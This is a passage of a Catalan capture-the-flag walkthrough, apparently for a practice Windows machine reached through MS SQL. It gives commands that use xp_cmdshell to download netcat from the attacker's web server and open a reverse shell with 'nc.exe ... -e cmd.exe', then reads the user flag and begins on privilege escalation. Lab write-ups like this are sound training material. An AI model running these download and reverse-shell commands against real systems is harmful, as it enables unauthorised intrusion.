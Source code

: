```bash
$ python3 -m http.server 8080
```

Ara tornem al _prompt_ de la base de dades i executem el següent per a descarregar-ho:

```bash
SQL> xp_cmdshell curl http://<la teva ip>:8080/nc.exe -o C:\Users\sql_svc\nc.exe
```

És important que especifiquem un directori on tinguem permisos d'escriptura, per això hem escollit la home de l'usuari amb el que tenim accés: `sql_svc`.

Ara ja podem para el servidor web amb `Ctrl-C` en la seva consola.

Només ens queda executar el _netcat_ en la màquina objectiu per a que ens truqui enviant-nos el regal de la terminal.

```
SQL> xp_cmdshell C:\Users\sql_svc\nc.exe <la teva ip> 9999 -e cmd.exe
```

Si tot ha sortit bé a la consola on tenies el _listener_ ara ha d'aparèixer una consola de Windows.

## Trobar la _flag_ d'usuari

Des de la nova consola de comandes de Windows només hem de navegar fins al _Desktop_ del nostre usuari,

```powershell
C:\Windows\System23> cd C:\Users\sql_svc\Desktop
```

i llegir el fitxer `user.txt`.

```power
C:\Users\sql_svc\Desktop> type user.txt
```

## Escalar privilegis

Ara mateix ens resulta impossible accedir al _Desktop_ de l'administrador per obtenir l'altre *flag* . La comanda

```powershell
C:\Users\sql_svc\Desktop> cd C:\Users\Adminsitrator\Desktop
```

ens retorna un error de permisos.

Per poder-hi accedir ens hem d'aprofitar d'errors de configuració del sistema, software amb permisos que no toquen, software des-actualitzat i/o errors de l'usuari (guardar contrasenyes en un fitxer de text pla per exemple).

No està de més comprovar els arxius que té l'usuari així com l'historial de comandes que ha executat. Per a comprovar-ho tot ràpid i de forma automatitzada hi ha eines com `winPEAS.exe` que automatitzen el procés de buscar errors de configuració o software amb permisos que no tindrien que tenir.

En aquest cas però amb una simple consulta al historial de comandes realitzades ja cantem quinto.
